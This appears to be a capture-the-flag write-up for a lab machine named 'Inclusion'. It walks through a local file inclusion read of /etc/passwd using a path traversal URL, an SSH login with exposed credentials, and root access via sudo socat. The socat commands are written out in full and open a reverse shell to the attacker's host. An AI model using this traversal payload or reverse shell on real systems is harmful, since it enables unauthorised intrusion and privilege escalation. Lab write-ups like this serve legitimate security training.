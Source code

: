 # Inclusion

> Nashia Holloway | May 11th, 2020

## Enumeration

Ports 20 and 80 are open. There's a blog that has some articles about hacking. The interesting post is about local file inclusion.

![](lfi.png)

We can get the /etc/passwd file by putting `http://IP/article?name=../../../../../../etc/passwd` in the URL.

![](etc.png)

## Initial Access

As we can see, we have ssh creds in plain sight here. Logging in, we get a shell as Falconfeast. Running `sudo -l`, our user can run "socat" with sudo privs (whatever that is).

![](socat.png)

From the man pages: 

```
Socat  is a command line based utility that establishes two bidirectional byte streams and transfers data between them. Because the streams can be constructed from a large set of different types of data sinks and sources (see address types), and because lots of address options may be applied to the streams, socat can be used for many different purposes.
```

Looks like we can run this to get a reverse shell as root. From GTFOBins:

![](gtfobins.png)

## Privilege Escalation

**On local machine:**

```
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

**On remote machine:**

```
sudo socat tcp-connect:tun0:1234 exec:sh,pty,stderr,setsid,sigint,sane
```
